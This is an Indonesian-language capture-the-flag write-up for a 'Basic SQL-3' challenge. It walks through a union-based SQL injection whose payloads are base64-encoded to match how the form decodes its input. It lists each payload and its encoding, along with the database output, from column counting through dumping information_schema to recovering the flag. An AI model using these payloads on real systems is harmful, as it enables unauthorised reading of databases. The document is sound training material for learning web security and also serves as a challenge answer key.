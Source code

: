 <h1><b>Basic SQL-3</h1></b>
<pre>
Select Form (username)
</pre>
</b><h3>Solution</h3></b>
<p>Perhatikan URL ketika kita submit, disana terdapat encode base64 contohnya <b>YWRtaW4=</b> yang jika didecode itu merupakan <b>admin</b>, dan berikut hasil masing2 decode selection</p>
<pre>
YWRtaW4= --> admin
ZXJpY2s= --> erick
cm9iZXJ0 --> robert
YWxiZXJ0 --> albert
</pre>
<p align='justify'>Jika kita coba melakukan injection hasilnya null(tidak terjadi apa2), Sepertinya terdapat proses base64 decoding sebelum data input diterima oleh database MySQL, contohnya jika kita input <b>YWRtaW4n</b>
akan error karena yang kita input mengandung perintah injection yaitu <b></b></p>
<pre>
admin' |-->| YWRtaW4n
</pre>
<p align='justify'> sepertinya kondisi ini hanya berlaku menggunakan union injection, pertama cari banyak column pada table, dan jangan lupa encode ke base64 sebelum melakukan injection </p>
<pre>
1' union select 1,2 -- - |-->| MScgdW5pb24gc2VsZWN0IDEsMiAtLSAt 
1' union select 1,2,3 -- - |-->| MScgdW5pb24gc2VsZWN0IDEsMiwzIC0tIC0=
</pre>
<p align='justify'>Setalah mendapatkan seluruh nilai tanpa error, sekarang ganti setiap nilai menjadi setiap query, Lakukan injection lagi dan jangan lupa encode terlebih dahulu</p>

```mysql
MariaDB [CTF]> select version();
+-------------------+
| version()         |
+-------------------+
| 10.3.23-MariaDB-1 |
+-------------------+
1 row in set (0.000 sec)

MariaDB [CTF]> select database();
+------------+
| database() |
+------------+
| CTF        |
+------------+
1 row in set (0.000 sec)
```
<pre>
1' union select version(),database(),3 -- - |-->| MScgdW5pb24gc2VsZWN0IHZlcnNpb24oKSxkYXRhYmFzZSgpLDMgLS0gLQ==
</pre>
<p align='justify'>Dan mendapatkan version database yaitu 10.3.23-MariaDB-1 dan nama database yaitu CTF, selanjutnya lakukan injection untuk table dari database CTF</p>

```mysql
MariaDB [CTF]> select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF';
+------------------------------------------------------------------------------------------------------------------+
| group_concat(TABLE_NAME)                                                                                         |
+------------------------------------------------------------------------------------------------------------------+
| *************************************,SQL_Challenge4,*********************************************************** |
+------------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)
```
<pre>
1' union select (select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF'),2,3# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgZ3JvdXBfY29uY2F0KFRBQkxFX05BTUUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLlRBQkxFUyB3aGVyZSBUQUJMRV9TQ0hFTUE9J0NURicpLDIsMyM=
Hasilnya
SQL_Challenge4
</pre>
<p align='justify'>Setelah mendapatkan Table name, sekarang kita mencari column dari table yang sudah didapatkan</p>

```mysql
MariaDB [CTF]> select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge4';
+---------------------------+
| group_concat(COLUMN_NAME) |
+---------------------------+
| id,username,level         |
+---------------------------+
1 row in set (0.001 sec)
```
<pre>
1' union select (select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge4'),2,3# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgZ3JvdXBfY29uY2F0KENPTFVNTl9OQU1FKSBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS5DT0xVTU5TIHdoZXJlIFRBQkxFX05BTUU9J1NRTF9DaGFsbGVuZ2U0JyksMiwzIw==
Hasilnya
id,username,level
</pre>
<p>Selanjutnya Injection masing-masing field dengan nama column yang sudah didapatkan</p>
<pre>
1' union select (select id from SQL_Challenge4 limit 0,1),(select username from SQL_Challenge4 limit 0,1),(select level from SQL_Challenge4 limit 0,1)# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgaWQgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCAwLDEpLChzZWxlY3QgdXNlcm5hbWUgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCAwLDEpLChzZWxlY3QgbGV2ZWwgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCAwLDEpIw
Hasilnya
Your ID : 1 
Username : admin 
Group : administrator
</pre>
<p align='justify'>Jika limit 0,1 menghasilkan field admin, dan banyak field yaitu yang ditampilkan pada form sebanyak 3,3. Mari kita periksa field 4,4</p>

```mysql
MariaDB [CTF]> select id from SQL_Challenge4 limit 4,4;
+----------+
| id       |
+----------+
| 13371337 |
+----------+
1 row in set (0.000 sec)

MariaDB [CTF]> select username from SQL_Challenge4 limit 4,4;
+----------+
| username |
+----------+
| Venom    |
+----------+
1 row in set (0.000 sec)

MariaDB [CTF]> select level from SQL_Challenge4 limit 4,4;
+-----------------------------+
| level                       |
+-----------------------------+
| VenomCTF{Un10n_m4k3_me_cry} |
+-----------------------------+
1 row in set (0.000 sec)
```
<pre>
1' union select (select id from SQL_Challenge4 limit 4,4),(select username from SQL_Challenge4 limit 4,4),(select level from SQL_Challenge4 limit 4,4)# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgaWQgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCA0LDQpLChzZWxlY3QgdXNlcm5hbWUgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCA0LDQpLChzZWxlY3QgbGV2ZWwgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCA0LDQpIw==
Hasilnya
Your ID : 13371337
Username : Venom
Group : VenomCTF{Un10n_m4k3_me_cry}
</pre>
<p>Ternyata dugaan kita benar bahwa field 4,4 berisi flag</p>
</b><h3>Flag</h3></b>
<pre>
VenomCTF{Un10n_m4k3_me_cry}
</pre>
